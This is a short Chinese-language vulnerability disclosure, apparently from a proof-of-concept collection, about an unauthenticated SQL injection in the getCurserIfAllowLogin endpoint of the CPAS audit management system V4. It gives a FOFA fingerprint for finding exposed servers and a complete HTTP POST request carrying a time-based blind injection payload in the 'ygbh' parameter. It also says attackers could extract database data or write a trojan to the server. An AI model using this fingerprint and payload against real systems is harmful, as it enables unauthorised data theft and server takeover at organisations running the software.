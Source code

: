 # CPAS审计管理系统getCurserIfAllowLogin存在SQL注入漏洞

友数聚 CPAS审计管理系统V4 getCurserIfAllowLogin 接口存在SQL注入，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa
```javascript
body="/cpasm4/static/cap/font/iconfont.css"
```

## poc
```javascript
POST /cpasm4/cpasList/getCurserIfAllowLogin HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: text/plain, */*; q=0.01

ygbh=q' AND (SELECT 1635 FROM (SELECT(SLEEP(5)))mlQT) AND 'qoYJ'='qoYJ
```

![image-20241227215623148](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272156212.png)
